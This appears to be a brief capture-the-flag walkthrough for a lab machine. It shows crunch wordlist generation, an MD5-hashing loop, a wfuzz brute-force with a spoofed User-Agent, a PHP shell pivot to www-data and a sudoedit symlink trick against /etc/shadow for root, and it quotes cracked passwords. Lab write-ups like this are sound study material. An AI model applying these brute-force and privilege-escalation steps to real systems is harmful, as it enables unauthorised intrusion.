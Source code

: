 only ssh and web open, possible user "marco"
checking /login.php, we see a password policy, for memorable words we use "savoia","curtis", and the other plane.

use `crunch 9 9 -t savoia%%^` and same with other names, to generate wordlist and use `subl`(ctrl+shift+L) to select all
and lower and upper-case everything, we also need to hash the passwords with md5 as seen in the md5.src.js, we can use this:

`while read -r line; do printf %s "$line" | md5sum | cut -f1 -d' ' | tee -a hash_pass.txt; done < pass.tx`

now using hydra gives error and using FUZZ doesn't give a valid result, we had to check the requests and adjust the user-agent.

`wfuzz -w hashed-list -H "User-Agent: Bypass" -X POST -d '{"username":"marco","password":"FUZZ"}' -u http://<machine-ip>/api/login --hh 63`
we get a valid response and crack the hash to get the password.(`savoia21!`)

the web login looks promising but was a rabbit hole :/
ssh into marco and check /var/www and we see a "admin.db"(accessible only by www-data), we use a php shell to get to www-data and
read the hash of the other user from the db(use su `Donald1983$`)

checking `sudo -l` shows sudoedit on a /var/www/html/*/*/config.php file, we symlink /etc/shadow to a file under 
`/var/www/html/root/root/config.php` and use `sudoedit -u root /var/www/html/*/*/config.php` to read and edit the file to get root.

